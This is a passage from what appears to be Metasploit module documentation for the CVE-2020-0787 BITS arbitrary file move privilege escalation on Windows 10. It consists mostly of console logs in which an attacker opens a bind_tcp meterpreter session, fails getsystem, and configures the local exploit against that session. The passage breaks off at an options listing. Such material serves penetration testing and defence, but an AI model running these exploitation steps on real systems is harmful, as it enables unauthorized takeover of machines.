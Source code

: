 Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
DESKTOP-NRCNIDN$  WORKGROUP        (null)
normal            DESKTOP-NRCNIDN  (null)
test              DESKTOP-NRCNIDN  (null)


meterpreter >
```

### Windows 10 v1903 x86 - Build 18362.30

```
msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     4444             yes       The listen port
   RHOST     172.26.17.231    no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > exploit

[*] Started bind TCP handler against 172.26.17.231:4444
[*] Sending stage (176195 bytes) to 172.26.17.231
[*] Meterpreter session 4 opened (0.0.0.0:0 -> 172.26.17.231:4444) at 2020-06-10 12:16:12 -0500

meterpreter > getuid
Server username: DESKTOP-PL99PE8\test
meterpreter > sysinfo
Computer        : DESKTOP-PL99PE8
OS              : Windows 10 (10.0 Build 18362).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: Access is denied. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter > background
[*] Backgrounding session 4...
msf5 exploit(multi/handler) > use exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move
msf5 exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD => windows/meterpreter/bind_tcp
msf5 exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > set SESSION 4
SESSION => 4
msf5 exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > show options
